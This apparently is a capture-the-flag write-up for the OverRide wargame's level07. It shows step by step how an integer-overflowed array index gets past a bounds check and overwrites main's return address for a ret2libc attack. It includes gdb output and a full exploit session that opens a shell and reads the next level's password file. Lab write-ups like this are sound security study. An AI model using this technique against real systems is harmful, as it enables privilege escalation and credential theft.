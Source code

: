 # level07

## Header

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level07/level07
```

<hr>

## Solution

From the [disassembled binary](./source.s) and the [source](./source.c) code we can see that program uses some
encryption and the `shell` will be created if we pass a string and a serial number that matches the string.

Through store_number function we can simply access data that out of `buf`'s bounds, including `main`'s return address:
```c
int store_number(char *buf) {
    ...
    num = get_unum();
    index = get_unum();
    if ((index % 3 == 0) || (num >> 0x18 == 0xb7)) {
        // fail
    }
    ((unsigned int *)buf)[index] = num;
    return 0;
}
```

To do that, let's look at the stack:
| Addr (EBP) | Addr (ESP) | Description | Size |
| :-----: | :-----: | :-----: | :-----: | 
| EBP+0x10 | ESP+0x | char **env | 4 bytes |
| EBP+0xc  | ESP+0x | char **argv | 4 bytes |
| EBP+0x8  | ESP+0x | int argc | 4 bytes |
| EBP+0x4  | ESP+0x | return address | 4 bytes |
| EBP+0x0  | ESP+0x | saved EBP | 4 bytes |
| EBP-0x4  | ESP+0x | saved EDI | 4 bytes |
| EBP-0x8  | ESP+0x | saved ESI | 4 bytes |
| EBP-0xc  | ESP+0x | saved EBX | 4 bytes |
| EBP-0x18 | ESP+0x1d0 | stack alignment | 12 bytes |
| EBP-0x1c | ESP+0x1cc | stack canary | 4 bytes |
| EBP-0x30 | ESP+0x1b8 | char cmd[20] | 20 bytes |
| EBP-0x34 | ESP+0x1b4 | ret number | 4 bytes |
| ... | ... | ... | ... |
| EBP-0x1c4 | ESP+0x24 | char buf[100] | 100 bytes |
| EBP-0x1c8 | ESP+0x20 | ... | ... |
| EBP-0x1cc | ESP+0x1c | argv pointer copy | 4 bytes |
| EBP-0x1d0 | ESP+0x18 | env pointer copy | 4 bytes |
| ... | ... | ... | ... |

So, as we need to overwrite return address through `buf`, the offset should equal to `456` bytes:
```
(gdb) ! $((0x1c4 + 0x4))
bash: 456: command not found
```

This is offset in bytes, but the type of the `nums` array is `unsinged int` which size is `4 bytes` on this system:
```c
...
int main(int ac, char **av, char **env) {
    unsigned int nums[25];
...
```
In this case, we must divide our byte offset to 4: `456 bytes / 4 bytes per uint num = 114th num`.

We're going to perform `ret2libc`, so we need to overwrite return address to `system` and pass `/bin/sh` string.<br>
`114` is the index we need to use to write at the address of `main`'s return. <br>
`115` is the index of the address where return address of `system` will be stored. <br> 
`116` is the index of the address of the first system argument.<br>

From the source code above, we see that index has restriction, it should not be a multiple of `3`:
```c
if ((index % 3 == 0) || (num >> 0x18 == 0xb7)) {
    // error
}

// and 456 % 3 == 0
```

Fortunately, we can use overflow to get rid of this restriction.
Whatever index is passed, the program first calculates offset in bytes to get the address of some element.
```asm
    shl    $0x2,%eax        ; Left shift, equals to res *= 4
```

All we need to get the `modified index` is to get the max value of 32bit unsigned int + 1 (4294967296) add our offset in bytes and divide it by 4:
```
(gdb) ! $(((4294967296 + 456) / 4))
bash: 1073741938: command not found
```

The thing is when `1073741938` will be multiplied by 4, the upper bits will be erased:
```
01000000 00000000 00000000 01110010   = 1073741938
<< 2
00000000 00000000 00000001 11001000   = 456 bytes = 114 ints
```

Great! Now the last part we need - address of `system` and `/bin/sh`:
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) info proc map
    ...
    Start Addr   End Addr       Size     Offset objfile
    ...
    0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
    ...
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh" 
0xf7f897ec
1 pattern found.
```

|   | Addr (hex) | Addr (dec) |
| -----| ----- | ----- |
| system | 0xf7e6aed0 | 4159090384 |
| "/bin/sh" | 0xf7f897ec | 4160264172 |

Exploit:
```
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cd ../level08/
$ ls -la
total 28
dr-xr-x---+ 1 level08 level08   100 Oct 19  2016 .
dr-x--x--x  1 root    root      260 Oct  2  2016 ..
-r--------  1 level08 level08     0 Oct 19  2016 .bash_history
-rw-r--r--  1 level08 level08   220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root        7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level08 level08  3533 Sep 10  2016 .bashrc
-rw-r-xr--+ 1 level08 level08    41 Oct 19  2016 .pass
-rw-r--r--  1 level08 level08   675 Sep 10  2016 .profile
-r--------  1 level08 level08  2235 Oct 19  2016 .viminfo
drwxrwx---+ 1 level09 users      60 Oct 19  2016 backups
-rwsr-s---+ 1 level09 users   12975 Oct 19  2016 level08
$ cat .pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

## References
